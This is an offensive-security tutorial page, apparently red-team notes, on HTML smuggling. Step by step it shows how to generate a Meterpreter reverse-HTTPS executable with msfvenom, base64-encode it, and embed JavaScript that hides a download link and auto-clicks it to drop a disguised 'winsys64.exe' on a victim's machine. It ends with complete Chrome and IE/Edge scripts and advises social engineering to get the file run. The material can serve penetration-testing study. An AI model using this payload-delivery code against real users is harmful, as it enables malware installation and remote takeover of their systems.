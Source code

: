 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or pretexting.

### Steps

The steps below walks you through creating JavaScript code that is compatible with Chrome. For IE/Edge, see the full script section for the compatible code. Note that the IE/Edge code does not work with Chrome.

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/o.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/o.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var outName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (alternatively, wrap each line in quotes).

```javascript
var payL ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary -->
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var stream = base64ToByteArray(payL);
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blobby = new Blob([stream], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var urlRef = window.URL.createObjectURL(blobby);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
anc.href = urlRef;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
anc.download = outName;
anc.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(urlRef);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```

### Full script (IE/Edge)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
window.navigator.msSaveOrOpenBlob(blobby, outName);
</script>
```





